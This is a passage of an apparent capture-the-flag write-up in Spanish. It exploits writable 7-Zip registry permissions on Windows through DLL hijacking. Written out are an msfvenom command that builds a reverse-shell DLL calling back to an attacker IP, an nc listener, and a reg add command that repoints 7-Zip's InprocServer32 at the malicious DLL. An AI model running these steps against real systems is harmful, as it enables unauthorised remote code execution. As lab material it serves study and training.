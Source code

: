 ```bash
RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : InheritOnly

RegistryRights    : ReadKey
AccessControlType : Allow
IdentityReference : BUILTIN\Users
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

```
vemos claramente como el grupo `Support` tiene permisos `FullControl`  sobre la clave de registro asociada a 7-Zip, esto significa que puedemos modificar la DLL que se carga cuando los usuarios interactúan con archivos `ZIP`, lo que permite ejecución de código arbitrario.

### DLL Hijacking

Para la explotacion de esta vulnerabilidad crearemos una `dll` maliciosa que nos regrese una revershell, esta la vamos a cargar en el sistema y vamos a modificar el registro para que apunte a nuestra `dll` maliciosa

>>> Creando la DLL

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.132 LPORT=4445 -f dll -o zip.dll
```
```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: zip.dll
```
ahora cargaremos la dll desde el usuario `bb.morgan`

![image](https://github.com/user-attachments/assets/a14548fd-502b-4fac-be99-728dd04b35ad)

una vez cargada la dll y antes de editar los registros no colocamos en escucha 

```bash
nc -lnvp 4445
```

y una vez todo listo, modificamos el registro desde el usuario `ee.reed`

```bash
reg add "HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\Temp\zip.dll" /f
```
```bash
reg add "HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\Temp\zip.dll" /f
The operation completed successfully.
```
